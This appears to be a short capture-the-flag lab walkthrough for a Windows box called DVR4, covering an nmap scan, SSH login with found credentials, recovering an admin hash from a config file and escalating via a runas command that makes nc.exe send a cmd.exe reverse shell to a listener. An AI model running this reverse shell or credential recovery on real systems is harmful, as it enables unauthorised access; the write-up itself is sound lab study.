 # Nmap

```
sudo nmap -sC -sV 192.168.224.179 -oN nmap-dvr4
```

# Initial Access Creds

```
viewer / ImWatchingY0u
```

## SSH in for Initial Access
```
ssh viewer@192.168.224.179 
```

Flag
```
20b79f1f80cc9a021c89248bf49a8c4d
```


Look for hidden files in C:/

```
dir /a
```

Discover ProgramData and an .ini config file with admin hash. 

Use this searchsploit decryptor to decrypt admin hash.
![[PG/Windows/attachments/Pasted image 20250701200258.png]]

Then set up nc listener on 443.

And use `run as` and nc.exe to authenticate as an admin and get the admin user shell.

```
runas /env /profile /user:DVR4\Administrator "C:\Users\viewer\nc.exe -e cmd.exe 192.168.45.152 443"
```
![[PG/Windows/attachments/Pasted image 20250701205939.png]]

Catch shell from nc runas cmd
![[PG/Windows/attachments/Pasted image 20250701210121.png]]
